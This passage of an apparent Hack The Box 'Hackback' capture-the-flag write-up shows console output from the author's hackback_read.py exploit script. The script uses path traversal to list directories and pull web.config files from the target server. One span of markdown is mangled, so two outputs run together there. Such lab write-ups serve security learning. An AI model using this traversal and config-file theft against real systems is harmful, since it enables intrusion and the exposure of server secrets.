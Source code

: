 The output of the script looks like this when enumerating directories:

```
# ./hackback_read.py ..
200
200
[04 March 2019, 12:49:47 AM] 10.10.14.23 - Username: test@test.com, Password: Array
(
    [0] => .
    [1] => ..
    [2] => 2bb6916122f1da34dcd916421e531578
    [3] => App_Data
    [4] => aspnet_client
    [5] => css
    [6] => img
    [7] => index.php
    [8] => js
    [9] => logs
    [10] => web.config
    [11] => web.config.old
)

# ./hackback_read.py ../..
200
200
[04 March 2019, 12:49:54 AM] 10.10.14.23 - Username: test@test.com, Password: Array
(
    [0] => .
    [1] => ..
    [2] => admin
    [3] => facebook
    [4] => hackthebox
    [5] => paypal
    [6] => twitter
)
```

As we saw above, there's a `web.config` file that can potentially contain sensitive information.

I downloaded it with `./hackback_read.py ../web.config`

```
# ./hackback_read.py ../web.config
200
200
[04 March 2019, 12:51:22 AM] 10.10.14.23 - Username: test@test.com, Password: 

root@ragingunicorn:~/htb/hackback# cat web.config
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
[...]](root@ragingunicorn:~/htb/hackback# ./hackback_read.py /inetpub/wwwroot/new_phish/admin web.config
200
200
[04 March 2019, 12:53:51 AM] 10.10.14.23 - Username: test@test.com, Password: <?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>)
```

